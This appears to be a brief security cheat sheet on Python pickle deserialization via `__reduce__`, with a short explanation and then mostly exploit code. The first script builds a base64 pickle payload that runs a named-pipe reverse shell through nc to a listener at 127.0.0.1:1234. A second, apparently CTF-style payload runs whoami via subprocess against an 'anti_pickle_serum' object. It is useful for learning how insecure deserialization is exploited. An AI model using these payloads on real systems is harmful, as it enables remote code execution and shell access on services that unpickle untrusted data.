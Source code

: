 # more technologies will be added soon !

### python pickle

### `__reduce__`

- In Python, `__reduce__` is a special method that allows you to customize the process of object serialization and deserialization using the `pickle` module. 
- When an object is pickled, the `__reduce__` method is called to provide a custom way to represent the object's state as a tuple.
- The `__reduce__` method should return a tuple that contains:

1. A callable (usually a class or a function) that will be used to reconstruct the object during unpickling.
2. A tuple of arguments to be passed to the callable when reconstructing the object.


### Exploit example [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

## another Example

- exploit for this object 
```
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

```python
#!/usr/bin/env python
import pickle
import pickletools
from base64 import b64encode
import subprocess


class anti_pickle_serum(object):
    def __reduce__(self):
        cmd=['whoami']
        return subprocess.check_output , (cmd,)


exploit_obj = anti_pickle_serum()

exploit_obj_data = pickle.dumps({"serum":exploit_obj} , protocol=0)

optmized_obj=pickletools.optimize(exploit_obj_data)
pickletools.dis(optmized_obj)

payload = b64encode(exploit_obj_data)

print(payload)


```

